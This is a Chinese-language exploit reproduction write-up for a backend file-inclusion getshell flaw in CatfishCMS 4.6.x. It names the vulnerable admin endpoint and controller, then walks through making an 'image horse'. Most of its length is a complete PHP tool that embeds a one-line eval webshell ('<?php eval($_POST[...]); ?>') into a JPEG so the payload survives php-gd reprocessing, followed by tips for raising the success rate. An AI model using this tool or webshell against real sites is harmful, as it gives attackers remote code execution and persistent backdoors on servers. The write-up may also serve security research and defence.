# CatfishCMS 4.6.15 后台文件包含getshell

> 原文：[https://www.zhihuifly.com/t/topic/2840](https://www.zhihuifly.com/t/topic/2840)

# CatfishCMS 4.6.15 后台文件包含getshell

## 一、漏洞简介

使用TP的模版函数进行文件包含

## 二、漏洞影响

CatfishCMS 4.6

## 三、复现过程

### 漏洞原理

url：

```
http://0-sec.org/cms/CatfishCMS-4.6.12/index.php/admin/Index/newpage.html 
```

文件地址：\CatfishCMS-4.6.12\application\admin\controller\Index.php

函数：newpage()











### 复现

首先需要制作图片马

在正常图片中插入shell并无视GD图像库的处理，常规方法有两种

```
1\. 对比两张经过php-gd库转换过的gif图片，如果其中存在相同之处，这就证明这部分图片数据不会经过转换。然后我可以注入代码到这部分图片文件中，最终实现远程代码执行
2\. 利用php-gd算法上的问题进行绕过 
```

这里我们选择第二种，使用脚本进行处理图片并绕过

```
1\. 上传一张jpg图片，然后把网站处理完的图片再下回来 比如x.jpg
2\. 执行图片处理脚本脚本进行处理 php jpg_payload.php x.jpg
3\. 如果没出错的话，新生成的文件再次经过gd库处理后，仍然能保留webshell代码语句 
```

提示：

```
1\. 图片找的稍微大一点 成功率更高
2\. shell语句越短成功率越高
3\. 一张图片不行就换一张 不要死磕注：上面的字全部是抄的，先说明一下不然给人按在地上骂就不好了 
```

制作过程：













图片马制作脚本

```
<?php
    /*

```
The algorithm of injecting the payload into the JPG image, which will keep unchanged after transformations
caused by PHP functions imagecopyresized() and imagecopyresampled().
It is necessary that the size and quality of the initial image are the same as those of the processed
image.

1) Upload an arbitrary image via secured files upload script
2) Save the processed image and launch:
php jpg_payload.php &lt;jpg_name.jpg&gt;

In case of successful injection you will get a specially crafted image, which should be uploaded again.

Since the most straightforward injection method is used, the following problems can occur:
1) After the second processing the injected data may become partially corrupted.
2) The jpg_payload.php script outputs "Something's wrong".
If this happens, try to change the payload (e.g. add some symbols at the beginning) or try another 
initial image.

Sergey Bobrov @Black2Fan.

See also:
https://www.idontplaydarts.com/2012/06/encoding-web-shells-in-png-idat-chunks/

*/

$a = '$_POST[eeeeeee]';
$miniPayload = "&lt;?php eval($a); ?&gt;&lt;?php echo phpinfo(); ?&gt;";
/*$miniPayload = "&lt;?php echo phpinfo(); ?&gt;";*/
if(!extension_loaded('gd') || !function_exists('imagecreatefromjpeg')) {
    die('php-gd is not installed');
}

if(!isset($argv[1])) {
    die('php jpg_payload.php &lt;jpg_name.jpg&gt;');
}

set_error_handler("custom_error_handler");

for($pad = 0; $pad &lt; 1024; $pad++) {
    $nullbytePayloadSize = $pad;
    $dis = new DataInputStream($argv[1]);
    $outStream = file_get_contents($argv[1]);
    $extraBytes = 0;
    $correctImage = TRUE;

    if($dis-&gt;readShort() != 0xFFD8) {
        die('Incorrect SOI marker');
    }

    while((!$dis-&gt;eof()) &amp;&amp; ($dis-&gt;readByte() == 0xFF)) {
        $marker = $dis-&gt;readByte();
        $size = $dis-&gt;readShort() - 2;
        $dis-&gt;skip($size);
        if($marker === 0xDA) {
            $startPos = $dis-&gt;seek();
            $outStreamTmp = 
                substr($outStream, 0, $startPos) . 
                $miniPayload . 
                str_repeat("\0",$nullbytePayloadSize) . 
                substr($outStream, $startPos);
            checkImage('_'.$argv[1], $outStreamTmp, TRUE);
            if($extraBytes !== 0) {
                while((!$dis-&gt;eof())) {
                    if($dis-&gt;readByte() === 0xFF) {
                        if($dis-&gt;readByte !== 0x00) {
                            break;
                        }
                    }
                }
                $stopPos = $dis-&gt;seek() - 2;
                $imageStreamSize = $stopPos - $startPos;
                $outStream = 
                    substr($outStream, 0, $startPos) . 
                    $miniPayload . 
                    substr(
                        str_repeat("\0",$nullbytePayloadSize).
                            substr($outStream, $startPos, $imageStreamSize),
                        0,
                        $nullbytePayloadSize+$imageStreamSize-$extraBytes) . 
                            substr($outStream, $stopPos);
            } elseif($correctImage) {
                $outStream = $outStreamTmp;
            } else {
                break;
            }
            if(checkImage('payload_'.$argv[1], $outStream)) {
                die('Success!');
            } else {
                break;
            }
        }
    }
}
unlink('payload_'.$argv[1]);
die('Something\'s wrong');

function checkImage($filename, $data, $unlink = FALSE) {
    global $correctImage;
    file_put_contents($filename, $data);
    $correctImage = TRUE;
    imagecreatefromjpeg($filename);
    if($unlink)
        unlink($filename);
    return $correctImage;
}

function custom_error_handler($errno, $errstr, $errfile, $errline) {
    global $extraBytes, $correctImage;
    $correctImage = FALSE;
    if(preg_match('/(\d+) extraneous bytes before marker/', $errstr, $m)) {
        if(isset($m[1])) {
            $extraBytes = (int)$m[1];
        }
    }
}

class DataInputStream {
    private $binData;
    private $order;
    private $size;

    public function __construct($filename, $order = false, $fromString = false) {
        $this-&gt;binData = '';
        $this-&gt;order = $order;
        if(!$fromString) {
            if(!file_exists($filename) || !is_file($filename))
                die('File not exists ['.$filename.']');
            $this-&gt;binData = file_get_contents($filename);
        } else {
            $this-&gt;binData = $filename;
        }
        $this-&gt;size = strlen($this-&gt;binData);
    }

    public function seek() {
        return ($this-&gt;size - strlen($this-&gt;binData));
    }

    public function skip($skip) {
        $this-&gt;binData = substr($this-&gt;binData, $skip);
    }

    public function readByte() {
        if($this-&gt;eof()) {
            die('End Of File');
        }
        $byte = substr($this-&gt;binData, 0, 1);
        $this-&gt;binData = substr($this-&gt;binData, 1);
        return ord($byte);
    }

    public function readShort() {
        if(strlen($this-&gt;binData) &lt; 2) {
            die('End Of File');
        }
        $short = substr($this-&gt;binData, 0, 2);
        $this-&gt;binData = substr($this-&gt;binData, 2);
        if($this-&gt;order) {
            $short = (ord($short[1]) &lt;&lt; 8) + ord($short[0]);
        } else {
            $short = (ord($short[0]) &lt;&lt; 8) + ord($short[1]);
        }
        return $short;
    }

    public function eof() {
        return !$this-&gt;binData||(strlen($this-&gt;binData) === 0);
    }
} 
```

?> 
```








